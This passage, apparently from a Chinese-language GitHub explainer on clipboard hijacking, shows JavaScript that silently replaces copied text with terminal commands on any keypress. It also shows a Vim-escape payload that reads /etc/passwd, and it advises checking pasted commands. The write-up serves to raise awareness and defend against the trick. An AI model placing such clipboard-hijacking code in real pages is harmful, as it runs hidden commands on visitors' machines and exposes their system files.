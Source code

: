 ```

              // Clean up any borders.
              textArea.style.border = 'none';
              textArea.style.outline = 'none';
              textArea.style.boxShadow = 'none';


              // Avoid flash of white box if rendered for any reason.
              textArea.style.background = 'transparent';




              textArea.value = text;


              document.body.appendChild(textArea);


              textArea.select();


              try {
                var successful = document.execCommand('copy');
                var msg = successful ? 'successful' : 'unsuccessful';
                console.log('Copying text command was ' + msg);
              } catch (err) {
                console.log('Oops, unable to copy');
              }


              document.body.removeChild(textArea);
            }


            document.addEventListener('keydown', function(event) {
                var ms = 800;
                var start = new Date().getTime();
                var end = start;
                while(end < start + ms) {
                    end = new Date().getTime();
                }
                copyTextToClipboard('touch ~/.evil\nclear\necho "not evil"');
            });
```

防不胜防啊。这东西就好像当年某些钓鱼网站让你乱下一些 PE 病毒一样，并没有直接的解决方案，最好的防护方式就是以后你复制命令到终端的时候仔细瞅瞅，或者先复制到一个第三方的编辑器内看看有没有啥奇怪的命令。不过别用 Vim 作为验证，譬如如下的攻击方式：

```
copyTextToClipboard('echo "evil"\n \x1b:!cat /etc/passwd\n');
```

它会利用 Vim 的 Macro 来获取你的用户密码等。如果你用的是 ITerm，它会提醒你那些自动利用换行来执行的命令: ![](https://camo.githubusercontent.com/88d852a7f44fff0ad3fd064241567a9079b6133d/687474703a2f2f692e696d6775722e636f6d2f573870776546312e706e67)
